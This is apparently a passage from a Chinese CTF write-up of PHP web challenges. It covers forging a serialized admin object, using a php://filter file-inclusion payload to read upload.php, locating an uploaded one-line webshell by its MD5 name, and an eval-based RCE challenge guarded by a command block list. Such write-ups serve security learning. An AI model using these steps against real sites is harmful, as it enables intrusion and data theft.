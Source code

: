 ```php


$pop = new User('admin');
$pop->isAdmin = true;
echo serialize($pop);

}
?>
```

#### UP!UPloader

先上传一个一句化木马shell.php，但是不给我上传的地址。提示我去到include.php，发现可以执行include函数，于是传参 `?filename=php://filter/read=convert.base64-encode/resource=upload.php`看看upload.php怎么写的。

代码：

```php
<?php
error_reporting(0);
$file = $_FILES['file'];
if (isset($file) && $file['size'] > 0) {
    $ext = pathinfo($file['name'], PATHINFO_EXTENSION);
    $name = pathinfo($file['name'], PATHINFO_FILENAME);
    $dir_name = $name . '.' . $ext;
    $upload_dir = './uploads/';
    if (!is_dir($upload_dir)) {
        mkdir($upload_dir, 0755, true);
    }
    if (move_uploaded_file($file['tmp_name'], $upload_dir . md5($dir_name) . '.' . $ext)) {
        echo "文件上传成功！不过文件路径可不好找呀~什么？什么include.php？我不知道啊。" ;
    } else {
        echo "文件存储失败，未知原因......";
    }
    die();
}
?>
```

发现对文件名进行MD5加密，并上传到/uploads目录里，于是手动对一句话木马shell.php进行md5加密，得到：25a452927110e39a345a2511c57647f2

蚁剑连接/uploads/25a452927110e39a345a2511c57647f2.php，发现根目录和网站目录都没有flag，于是命令行执行代码env看环境变量，发现flag

#### ezrce

```php
<?php

error_reporting(0);

if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];

    if (preg_match("/flag|cat|ls|echo|php|bash|sh|more| |less|head|tail|[\|\&\>\<]|eval|system|exec|popen|shell_exec/i", $cmd)) {
        die("Blocked by security filter!");
    } else {
        eval($cmd);
    }
} else {
    highlight_file(__FILE__);
}
?>

```
